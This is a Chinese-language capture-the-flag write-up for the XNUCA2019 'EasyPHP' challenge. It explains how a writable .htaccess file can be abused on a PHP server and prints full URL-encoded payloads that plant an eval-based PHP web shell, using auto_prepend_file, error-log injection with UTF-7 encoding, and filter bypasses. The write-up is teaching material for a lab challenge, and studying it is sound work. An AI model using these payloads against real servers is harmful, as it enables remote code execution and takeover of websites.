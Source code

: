 # \[XNUCA2019Qualifier]EasyPHP

## \[XNUCA2019Qualifier]EasyPHP

## 考点

* .htaccess修改PHP配置

## wp

给了源码，第一段删除除了index.php之外的所有文件，再包含fl3g.php，不对啊fl3g.php应该没有了啊为什么不报错，并且代码可以顺利执行。需要GET传入两个参数content和filename

```php
$files = scandir('./'); 
foreach($files as $file) {
    if(is_file($file)){
        if ($file !== "index.php") {
            unlink($file);
        }
    }
}
include_once("fl3g.php");
if(!isset($_GET['content']) || !isset($_GET['filename'])) {
    highlight_file(__FILE__);
    die();
}
```

第二段代码对传入的内容进行检查。content不能包含`on,html,type,flag,upload,file` ，filename必须由小写字母和`.` 组成

```php
$content = $_GET['content'];
if(stristr($content,'on') || stristr($content,'html') || stristr($content,'type') || stristr($content,'flag') || stristr($content,'upload') || stristr($content,'file')) {
    echo "Hacker";
    die();
}
$filename = $_GET['filename'];
if(preg_match("/[^a-z\.]/", $filename) == 1) {
    echo "Hacker";
    die();
}
```

接着最后一段代码，删除除了index.php之外的所有文件，在把content写入到filename中

```php
    $files = scandir('./');
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    file_put_contents($filename, $content . "\nJust one chance");
```

传入`?content=123&filename=.aaa` 再访问`.aaa` 可以看到内容

```
123
Just one chance
```

这里给的提示很明显了，文件名只由小写字母和`.` 组成，那就是`.htaccess`

### 第一种做法

在`.htaccess` 中使用`#` 进行单行注释，由于在代码中使用`.` 对content进行拼接，如果content最后加上`\` 就会把拼接的 给注释掉。再配合`#` 就可以注释掉拼接内容了。

接着是利用.htaccess写shell，将一句话写入到.htaccess的注释中，再利用它自动加载文件的特性加载.htaccess文件，从而加载一句话

content为

```
php_value auto_prepend_file ".htaccess"
# <?php eval($_GET[1]);?>\
```

由于file被过滤，可以使用`\` 绕过，就像Linux命令行那样，而换行可以使用`%0A` ，或者直接把下面这段进行URL编码

```
php_value auto_prepend_fi\
le ".htaccess"
# <?php eval($_GET['1']);?>\
```

payload

```
filename=.htaccess&content=php_value+auto_prepend_fi%5c%0ale+%22.htaccess%22%0a%23+%3c%3fphp+eval(%24_GET%5b%271%27%5d)%3b%3f%3e%5c&1=phpinfo();
```

![](../.gitbook/assets/qaLCFQtVs3xkMDDcLMg3icBbQ7u6JtXOhaUMYkncNC4.png)

### 第二种做法

利用`.htaccess` 自定义错误日志和默认包含路径进行getshell。首先设置错误日志为`/tmp/fl3g.php` ，再把默认包含路径设为一句话，这样在写入错误日志时就会把一句话也写入

```
php_value error_log /tmp/fl3g.php
php_value error_reporting 32767
php_value include_path "<?php eval($_GET[1]);?>"
# \
```

但是在日志写入时，会把`<>` 这些字符进行编码，所以使用UTF-7编码绕过

```
php_value error_log /tmp/fl3g.php
php_value error_reporting 32767
php_value include_path "+ADw?php eval($_GET[1])+ADs +AF8AXw-halt+AF8-compiler()+ADs"
# \
```

将shell写入后，需要再写一个.htaccess设置默认包含路径为`/tmp` ，并且让其使用UTF-7的方式解码。这样在index.php中`include_once("fl3g.php");` 时，就会包含一句话

```
php_value include_path "/tmp"
php_value zend.multibyte 1
php_value zend.script_encoding "UTF-7"
# \
```

payload

```
filename=.htaccess&content=php_value+error_log+%2ftmp%2ffl3g.php%0aphp_value+error_reporting+32767%0aphp_value+include_path+%22%2bADw%3fphp+eval(%24_GET%5b1%5d)%2bADs+%2bAF8AXw-halt%2bAF8-compiler()%2bADs%22%0a%23+%5c

filename=.htaccess&content=php_value+include_path+%22%2ftmp%22%0aphp_value+zend.multibyte+1%0aphp_value+zend.script_encoding+%22UTF-7%22%0a%23+%5c&1=phpinfo();
```

![](../.gitbook/assets/c4tMvaKI3ue6nf8muLY6qo\_t5p89rzT6qtW4nYIK0I4.png)

### 第三种做法

利用正则回溯，preg\_match函数有prce回溯，如果超过回溯次数就会返回FALSE。而在本题，所有preg\_match的判断都是是否为TRUE，所以可以使用这个方法绕过。

在.htaccess中设置回溯次数的方法是

```
php_value pcre.backtrack_limit 0
php_value pcre.jit 0
# \
```

但是这个方法是有问题的，要先写入修改正则回溯次数的内容到.htaccess中，但是当第二次向fl3g.php写入一句话的时候，上次上传的.htaccess已经被删除，所以会一直提示Hacker。

## 小结

1. 在`.htaccess` 中使用`#` 进行单行注释
2. 在`.htaccess` 中使用`\`进行多行拼接
3. 在`.htaccess` 中使用`php_value auto_prepend_file "1.jpg"` 在脚本头部加载文件
4. `.htaccess` 可以自定义错误日志路径
5. `.htaccess` 可以自定义默认包含路径
6. `.htaccess` 可以使用UTF-7编码绕过一些限制
7. `.htaccess` 可以自定义preg\_match函数prce回溯次数

